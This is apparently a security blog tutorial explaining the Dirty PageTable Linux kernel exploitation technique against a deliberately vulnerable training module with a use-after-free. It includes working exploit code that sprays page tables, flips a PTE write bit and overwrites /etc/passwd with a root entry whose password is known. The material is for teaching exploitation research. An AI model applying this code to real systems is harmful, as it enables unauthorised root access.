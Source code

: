 ```yaml
---
title: Linux Kernel Exploitation - Dirty PageTable
date: 2025-04-28
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain Dirty PageTable, a universal and data-only exploitation technique that allows us to gain arbitrary read and write access to the entire physical memory. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-pagetable) beforehand.

## Analysis
The vulnerable LKM provides four commands: `CMD_ALLOC`, `CMD_READ`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, read from, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have read and write primitives, It is not difficult to control RIP and escalate privileges by performing cross-cache attack, as explained in the [previous post](https://r1ru.github.io/posts/1/). However, in this post, we take a data-only approach using Dirty Pagetable. Data-only attacks are increasingly important in the current era (due to CONFIG_CFI_CLANG) and are widely used in real-world kernel exploits.

## Dirty PageTable
As explained in the [previous post](https://r1ru.github.io/posts/1/), by using cross-cache attack, we can overlap victim objects with arbitrary kernel objects. In Dirty PageTable, we overlap victim objects with page tables. Since we already have read and write primitives, we can modify page tables as we like, resulting in arbitrary read and write access to the entire physical memory.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of page tables:
```c
int file_fd = open("/etc/passwd", O_RDONLY);
assert(file_fd != -1);

puts("[*] Spraying user pagetables to reclaim order-0 pages");
for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (mmap((void *)(0xdead0000000UL + 0x200000 * i), PAGE_SIZE, PROT_READ, MAP_SHARED | MAP_FIXED_NOREPLACE, file_fd, 0) == MAP_FAILED) {
        printf("[-] Failed to mmap %#lx\n", 0xdead0000000UL + 0x200000 * i);
        exit(1);
    }
    *(volatile char*)(0xdead0000000UL + 0x200000 * i);
}
```
Here, we map /etc/passwd to user space. Note that we use `MAP_FIXED_NOREPLACE` flag and read from the page to ensure the page mapping is new and actually mapped.

Next, we locate the victim object and modify the PTE:
```c
unsigned long pte;
int victim = -1;
for (int i = 0; i < num_spray; i += objs_per_slab * 2) {
    obj_read(i, (char *)&pte, 8);
    if (pte != 0) {
        victim = i;
        printf("[+] Found victim = %d, pte = %#lx\n", victim, pte);
        pte |= 0x2;
        printf("[*] Overwritting PTE with %#lx\n", pte);
        obj_write(victim, (char *)&pte, 8);
        break;
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim object");
    exit(0);
}
```
Here, we enable the R/W flag. After this, we can modify /etc/passwd, even though the page was initially mapped as read-only. See the [osdev article](https://wiki.osdev.org/Paging) for more details about paging.

Finally, we overwrite /etc/passwd (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`):
```c
system("echo -e 'root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh' > /tmp/evil");
int evil_fd = open("/tmp/evil", O_RDONLY);
assert(evil_fd != -1);
struct stat evil_stat;
assert(fstat(evil_fd, &evil_stat) != -1);

for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (pread(evil_fd, (char *)(0xdead0000000UL + 0x200000 * i), evil_stat.st_size, 0) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        exit(0);
    }
}
```
Note that we use `pread` to ignore `SIGSEGV`. If we directly write to memory and the corresponding PTE is not valid, the program will exit.

By running this exploit, we can log in as a root user and see the flag:

![win](/assets/img/posts/2025-04-28-2/win.png)

## References
> The original article, *Nicolas Wu. Dirty Pagetable: A Novel Exploitation Technique To Rule Linux Kernel. https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html* seems to be broken now.
{: .prompt-info }
1. Jann Horn. 2021. How a simple Linux kernel memory corruption bug can lead to complete system compromise. https://googleprojectzero.blogspot.com/2021/10/how-simple-linux-kernel-memory.html